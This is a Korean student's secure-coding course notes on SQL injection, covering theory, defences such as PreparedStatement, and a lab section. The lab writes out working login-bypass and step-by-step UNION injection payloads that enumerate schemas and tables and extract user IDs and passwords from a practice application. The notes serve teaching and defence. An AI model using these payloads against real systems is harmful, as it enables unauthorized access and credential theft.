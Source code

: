 # SecureCoding-Study
시큐어코딩 수업
실습, 이론
C:\SecureCoding
# 11주차
# SQL 삽입공격
### -이론-
동적 쿼리 SQL문 사용할때 
외부 입력값에 따라 쿼리문에 구조가 바뀌는 취약점을 이용
-피해유형
1. DB 정보 열람 및 추가 , 삭제 가능
2. 프로시저를 통해 운영체제 명령어 수행
3. 웹 애플리케이션을 조정해 다른 시스템을 공격
4. 불법 로그인
- 공격의 유형
1. Form Based SQL 삽입
 웹사이트페이지 Form에서 로그인할때 칸에
  sql문으로 사용할수 있는 특수문자 이용히여 공격
2. UNION SQL 삽임
 웹애플리케이션이 조회결과를 리스트로 출력하는 화면을 가진경우
- 방어
1. 정적쿼리를 사용 
PreparedStatement 을 사용 정적쿼리 방식으로 미리만들어진 쿼리문을
활용 외부입력값은 set메소드를 입력 -> 쿼리 구조가 변조 방지
2. 동적쿼리일때
특수문자 및 SQL 명령문으로 사용되는 키워드 철저히 제거

### -실습-
실습환경: 1. 웹 애플리케이션 서버는 사용자의 입력을 받아
            동적 쿼리에 사용하고 있음
         2. 화이트리스트 기반의 필터링을 전혀 사용하지 않음
         ---> sql삽입공격에 매우 취약함
         ID :test PW:test 
 
1. 비정상적인 입력 값으로 인증 우회가능성 확인
1) ID :'or'a-'='a  PW :  ID :'or'a-'='a
 --> HTTP Status 500 Error 발생
 too many results 구문이 있다 
 -> 정상적인 상황보다 많은정보를 요청하여 서버가표시할수없음
 항상참값이 봔환되어 모든테이블의 정보를 확인하라는 명령으로 변경되었다.
 
2) ID:admin'#  PW:aaa 
 --> 관리자 모드로 로그인
 
 2. UNION SQL 삽입공격 실습
  :UNION SQL 삽입 취약점을 이용하여 단계적으로 보안 자산의 정보추출
   공격자가 원하는 중요 정보 자산을 탈취하는 공격 과정
  시큐어코딩테스트-> SQL 인젝션 -> MYSQL 인젝션 -> ID:admin
 
 1) ID:admin'union select 1,2,3,4# --> DB에서 사용하는 컬럼의개수 확인 ->에러
 2) 순차적으로 컬럼을 높여감 ID:admin'union select 1,2,3,4,5# -> 에러
 3) ID:admin'union select 1,2,3,4,5,6# --> 정보가 나타남
   -> 따라서 DB컬럼개수:6개 -> 향후 공격에서 컬럼6개로 맞춰주고,1~4번 컬럼에
   악성 쿼리문을 삽입하면 정보 유출가능성이 있다.
 4) DBMS버전 확인 ID:admin'union select version(),2,3,4,5,6#
  -> Union select와 버전 키워드를 사용함으로써 해당 DBMS의 버전정보를 얻어올수있음
 5) 공격대상 DM목록 확인 
  -> ID:admin'union select schema_name,2,3,4,5,6 from     
     information_schema.schemata#
 6) 특정 DB선정후 ,테이블 목록확인
  -> ID:admin'union select group_concat(table_name),2,3,4,5,6 from
     information_schema.tables where table_shema=database()#
 7) 테이블의 컬럼 명 확인
   -> ID:admin'union select group_concat(column_name),2,3,4,5,6 from
     information_schema.columns where table_name='board_member'#
 8) 컬럼 데이터 추출
   -> ID:admin'union select idx,userid,userpw,username,5,6
      from board_member#
          
         
         
         
         
         
         
         
         
         
         
         
         
         
         
